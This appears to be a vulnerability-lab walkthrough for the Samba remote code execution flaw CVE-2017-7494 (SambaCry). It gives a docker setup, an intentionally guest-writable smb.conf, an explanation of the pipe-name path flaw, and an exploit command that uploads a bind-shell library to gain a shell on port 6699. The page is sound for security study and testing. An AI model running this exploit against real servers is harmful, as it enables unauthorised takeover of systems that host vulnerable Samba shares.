


Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)¶
Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named SambaCry. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.
Environment Setup¶
Execute following commands to start a Samba server 4.6.3:
docker compose up -d
Principle¶
Reference to SambaCry RCE Exploit:
Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function
is_known_pipename().An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request.
The function
is_known_pipename()doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.
The exploitation requirements:
- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory
See also:
- https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
- https://github.com/opsxcq/exploit-CVE-2017-7494
- http://bobao.360.cn/learning/detail/3900.html
Exploit¶
Samba config ( you can find here ) of our target server:
[global]
map to guest = Bad User
server string = Samba Server Version %v
guest account = nobody
[myshare]
path = /home/share
read only = no
guest ok = yes
guest only = yes
Use smbclient to test connecting:
smbclient //your-ip/myshare -N

If you got connection error, please check your network, especially port 445.
Using https://github.com/opsxcq/exploit-CVE-2017-7494 to exploit the server:
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
Successful execute commands:

Please note that, metasploit's exploit/linux/samba/is_known_pipename is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.